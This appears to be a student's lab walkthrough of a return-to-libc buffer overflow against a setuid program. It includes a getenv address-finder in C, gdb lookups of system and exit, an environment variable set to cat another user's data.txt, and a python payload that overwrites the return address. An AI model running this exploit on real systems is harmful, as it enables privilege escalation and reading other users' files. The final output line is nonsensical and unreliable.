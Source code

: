 lab@crunchbang:~$ ls -l
total 88
-r-sr-xr-x 1 railsfax   railsfax    5834 Dec 14  2014 2runMe
-r--r--r-- 1 railsfax   railsfax     287 Dec 14  2014 2runMe.C
-r-sr-xr-x 1 missionmug missionmug  5776 Dec 14  2014 3runMe
-r-sr-xr-x 1 bluefoggy  bluefoggy  14071 Dec 16  2014 4runMe
-r--r--r-- 1 bluefoggy  bluefoggy    137 Dec 16  2014 4runMe.C
-r-sr-xr-x 1 cookbee    cookbee     5096 Dec 16  2014 5runMe
-r--r--r-- 1 cookbee    cookbee       72 Dec 16  2014 5runMe.C
-r-------- 1 lab        lab           33 Dec 12  2014 data.txt
-rwxr-xr-x 1 lab        lab         5548 Dec  2 17:37 getenv
-rw-r--r-- 1 lab        lab          420 Dec  2 17:35 getenv.c
-rw-r--r-- 1 lab        lab           74 Dec  2 18:03 l.C
-rwxr-xr-x 1 lab        lab            0 Dec  2 18:09 less
-r-sr-xr-x 1 seetow     seetow      5071 Dec 14  2014 runMe
-r--r--r-- 1 seetow     seetow        74 Dec 14  2014 runMe.C
-rw-r--r-- 1 lab        lab           11 Dec  2 17:46 trial.txt

execute as/same group access/my access
creator info
how big is the file
date and file name

Set A random environment variable as a commmand to use
(can inject python code to have it execute by overwritting its return address)
lab@crunchbang:~$ export JINGNING="cat /home/bluefoggy/data.txt"
lab@crunchbang:~$ echo $JINGNING
cat /home/bluefoggy             #check if it is truely changed


Getenv function .c file

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
   char *ptr;
 
   if(argc < 3) {
      printf("Usage: %s <environment var> <target program name>\n", argv[0]); 
      exit(0);
   }
   ptr = getenv(argv[1]); /* Get env var location. */
   ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
   printf("%s will be at %p\n", argv[1], ptr);
}


lab@crunchbang:~$ gdb -q 4runMe
Reading symbols from /home/lab/4runMe...done.
(gdb) p system
No symbol "system" in current context.
(gdb) b main
Breakpoint 1 at 0x80485e5: file runMe4.C, line 17.
(gdb) run
Starting program: /home/lab/4runMe 

Breakpoint 1, main (argc=1, argv=0xbffff7c4) at runMe4.C:17
17	runMe4.C: No such file or directory.
(gdb) p system 
$1 = {<text variable, no debug info>} 0xb7d74c30 <system>       #this number is going to be use to overwrite the return address1
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7d68270 <exit>         #this number is going to be use to overwrite the return address2


insert python code to overwrite the returned address
lab@crunchbang:~$ ./HiDontDeleteMe JINGNING 4runMe
JINGNING will be at 0xbfffff79
lab@crunchbang:~$ ./4runMe $(python -c 'print "i" * 22+ "\x30\x4c\xd7\xb7" + "\x70\x82\xd6\xb7" + "\x75\xff\xff\xbf"')
The impressionism of mobility is rather open-minded in its empiricism.





